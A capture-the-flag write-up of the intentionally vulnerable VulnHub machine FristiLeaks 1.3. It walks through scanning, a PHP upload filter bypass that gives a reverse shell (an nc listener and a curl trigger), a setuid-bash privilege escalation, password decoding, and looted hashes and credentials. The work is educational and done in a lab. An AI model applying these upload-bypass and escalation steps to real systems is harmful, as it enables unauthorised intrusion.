

# [[VulnHub] FristiLeaks: 1.3](https://www.vulnhub.com/entry/fristileaks-13,133/)

**Date**: 11/Sep/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [exploit_php_fileupload](https://github.com/7h3rAm/writeups/search?q=exploit_php_fileupload&unscoped_q=exploit_php_fileupload), [exploit_php_fileupload_bypass](https://github.com/7h3rAm/writeups/search?q=exploit_php_fileupload_bypass&unscoped_q=exploit_php_fileupload_bypass), [privesc_sudo](https://github.com/7h3rAm/writeups/search?q=privesc_sudo&unscoped_q=privesc_sudo), [privesc_setuid](https://github.com/7h3rAm/writeups/search?q=privesc_setuid&unscoped_q=privesc_setuid)  

## Overview
This is a writeup for VulnHub VM [FristiLeaks: 1.3](https://www.vulnhub.com/entry/fristileaks-13,133/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):


### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:




### TTPs
1\. `80/tcp/http/Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)`: [exploit_php_fileupload](https://github.com/7h3rAm/writeups#exploit_php_fileupload), [exploit_php_fileupload_bypass](https://github.com/7h3rAm/writeups#exploit_php_fileupload_bypass), [privesc_sudo](https://github.com/7h3rAm/writeups#privesc_sudo), [privesc_setuid](https://github.com/7h3rAm/writeups#privesc_setuid)  


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Wed Sep 11 13:59:40 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/vulnhub/fristileaks1.3/results/192.168.92.133/scans/_quick_tcp_nmap.txt -oX /root/toolbox/vulnhub/fristileaks1.3/results/192.168.92.133/scans/xml/_quick_tcp_nmap.xml 192.168.92.133
Nmap scan report for 192.168.92.133
Host is up, received arp-response (0.00099s latency).
Scanned at 2019-09-11 13:59:41 PDT for 13s
Not shown: 999 filtered ports
Reason: 992 no-responses and 7 host-prohibiteds
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
| http-robots.txt: 3 disallowed entries
|_/cola /sisi /beer
|_http-server-header: Apache/2.2.15 (CentOS) DAV/2 PHP/5.3.3
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:A5:A6:76 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 11 13:59:54 2019 -- 1 IP address (1 host up) scanned in 14.00 seconds

```

2\. Here's the summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:  

  

3\. We find references to 3 directories from `robots.txt`:  
``` {.python .numberLines}
http://192.168.92.133/cola
http://192.168.92.133/sisi
http://192.168.92.133/beer

```

  

4\. These directories don't have anything useful other than a meme image. Since all these directory names are references to drinks and the name of this VM also referes to one, we try `http://192.168.92.133/fristi` and are presented with a login page:  

  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp  |  http  |  Apache httpd 2.2.15 ((CentOS) DAV/2 PHP/5.3.3)
```
#### Files
``` {.python .numberLines}
http://192.168.92.133/robots.txt
http://192.168.92.133/fristi
```
#### Users
``` {.python .numberLines}
ssh: eezeepz, admin, fristigod
```

\newpage
## Phase #2: Exploitation
1\. The source of this page hints at a possible username `eezeepz` and password encoded within an image embedded as Base64 data in this source:  
``` {.python .numberLines}
eezeepz/keKkeKKeKKeKkEkkEk

```

  

  

2\. We login using these credentials and are presented with a file upload page. We create a PHP reverse shell, add `GIF89a` magic byte to it start and rename it as `rs.php.gif` to evade filters and upload the file. Once uploaded the applications informs us of the upload directory as well:  
``` {.python .numberLines}
rs.php.gif → http://192.168.92.133/fristi/uploads/rs.php.gif

```

  

3\. We start a Netcat listener, issue a request for this file using `curl` and are presented with the initial shell:  
``` {.python .numberLines}
nc -nlvp 443
curl -v "http://192.168.92.133/fristi/uploads/rs.php.gif"

```

  

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
apache@localhost.localdomain> id
uid=48(apache) gid=48(apache) groups=48(apache)
apache@localhost.localdomain>  
apache@localhost.localdomain> uname
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
apache@localhost.localdomain>  
apache@localhost.localdomain> ifconfig
eth0  Link encap:Ethernet  HWaddr 08:00:27:A5:A6:76
      inet addr:192.168.92.133  Bcast:192.168.92.255  Mask:255.255.255.0
      inet6 addr: fe80::a00:27ff:fea5:a676/64 Scope:Link
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:343696 errors:0 dropped:0 overruns:0 frame:0
      TX packets:199868 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:28339698 (27.0 MiB)  TX bytes:30059387 (28.6 MiB)
apache@localhost.localdomain>  
apache@localhost.localdomain> users
eezeepz
admin
fristigod
```

\newpage
## Phase #3: Privilege Escalation
1\. Exploring the filesystem, we come across `/var/www/notex.txt` file. This file hints looking at the contents of user `eezeepz`'s home directory:  
``` {.python .numberLines}
cd /var/www
cat notes.txt

```

  

2\. We find another interesting file at `/home/eezeepz/notes.txt` which hints at a possible privesc method:  
``` {.python .numberLines}
cd /home/eezeepz
cat notes.txt

```

  

3\. As suggested in the notes file, we create a file `/tmp/runthis` to execute a command starting with `/usr/bin` followed by directory traversal strings to copy the `bash` shell into `/tmp` directory and setuid on it. Since these commadns are executed within the scope of user `admin`, wehn we run the `/tmp/bash` file, we get a shell as user `admin`:  
``` {.python .numberLines}
echo -e "/usr/bin/../../bin/cp /bin/bash /tmp/bash; chmod u+s /tmp/bash" >/tmp/runthis
/tmp/bash -p

```

  

4\. We move into `/home/admin` directory and find a reversed, Base64 encoded string within `whoisyourgodnow.txt` file, that is owned by user `fristigod`. We also find a Python script `cryptpass.py` in this directory. Looking at the script, we reverse the encoding process and add a decoding method to it. Testing updated script with `=RFn0AKnlMHMPIzpyuTI0ITG` reveals the password for user `fristigod` to be `LetThereBeFristi!`. We the use `su` to switch user:  
``` {.python .numberLines}
cat whoisyourgodnow.txt
cat cryptpass.py
python cryptpass.py =RFn0AKnlMHMPIzpyuTI0ITG
su - fristigod

```

  

  

5\. Looking at the file `cryptedpass.txt`, which is owned by user `admin`, we see a similar encoded string as before and repeat the process to get decoded the decoded password `thisisalsopw123`. We use this to switch user:  
``` {.python .numberLines}
cat cryptedpass.txt
cat cryptpass.py
python cryptpass.py mVGZ3O3omkJLmy2pcuTq
su - admin

```

  

  

6\. We return to being user `fristigod` and explore their home directory. Within the `./bash_history` file we find references to a local, setuid file `.secret_admin_stuff/doCom`:  
``` {.python .numberLines}
cd /home/fristigod
cat .bash_history

```

  

  

7\. Using examples from `.bash_history`, we run the setuid file to execute `/bin/bash` and gain elevated privileges:  
``` {.python .numberLines}
sudo -u fristi ./doCom "/bin/bash"

```

  

8\. We then explore `root`'s home directory and find the flag within `/root/fristileaks_secrets.txt` file:  
``` {.python .numberLines}
cd /root
cat fristileaks_secrets

```

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$qAoeosiW$fsOy8H/VKux.9K0T3Ww2D3FPNlO5LAaFytx/6t69Q7LPDSS/nNiP4xzq0Qab.Iz3uy5fYdH3Aw/K5v3ZM........................
eezeepz:$6$djF4bN.s$JWhT7wJo37fgtuJ.be2Q62PnM/AogXuqGa.PgRzrMGv9/Th0aixBXl8Usy9.RkO1ZRAQ/UM3xP7oGWu9z........................
admin:$6$NPXhvENr$yG4a5RpaLpL5UDRRZ3Ts0eZadZfFFbYpI1kyNJp9rND0AySx2FhYSmAvY.91UzETJVvZcDjWb2pp85uLA........................
fristigod:$6$0WqnZlI/$gIzMByP7rH21W3neA.uHYZZg5aM7gI1xtOj8WwgoK1QgQh2LWL0nQBJau/mGcOSxLbaGJhJjM.6HNJTW.........................
```
### Credentials
``` {.python .numberLines}
ssh: admin/thisisalsop...., fristigod/LetThereBeF......
http: eezeepz/keKkeKKeKKeKk.....
```
### Flags
``` {.python .numberLines}
Y0u_kn0w_y0u_l0ve_f.....
```

## References
[+] <https://www.vulnhub.com/entry/fristileaks-13,133/>  
[+] <https://highon.coffee/blog/fristileaks-walkthrough/>  
[+] <https://kongwenbin.wordpress.com/2017/12/31/write-up-for-fristileaks-v1-3-vulnhub/>  
